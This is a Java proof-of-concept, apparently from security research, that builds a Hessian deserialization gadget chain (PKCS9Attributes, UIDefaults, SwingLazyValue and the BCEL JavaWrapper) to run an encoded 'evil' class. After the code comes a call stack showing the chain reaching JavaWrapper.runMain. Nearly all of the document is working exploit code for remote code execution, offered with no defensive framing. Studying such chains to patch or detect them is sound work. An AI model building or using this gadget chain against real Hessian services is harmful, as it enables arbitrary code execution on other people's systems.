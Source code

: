 ```java
import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;

public class Hessian_PKCS9Attributes_SwingLazyValue_JavaWrapper {
    public static void main(String[] args) throws Exception {
        PKCS9Attributes s = createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        JavaClass evil = Repository.lookupClass(test.class);
        String payload = "$$BCEL$$" + Utility.encode(evil.getBytes(), true);

        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{payload}}));

        setFieldValue(s,"attributes",uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(s);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T) sc.newInstance(consArgs);
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```
调用栈：
```
runMain:131, JavaWrapper (com.sun.org.apache.bcel.internal.util)
_main:153, JavaWrapper (com.sun.org.apache.bcel.internal.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
createValue:73, SwingLazyValue (sun.swing)
```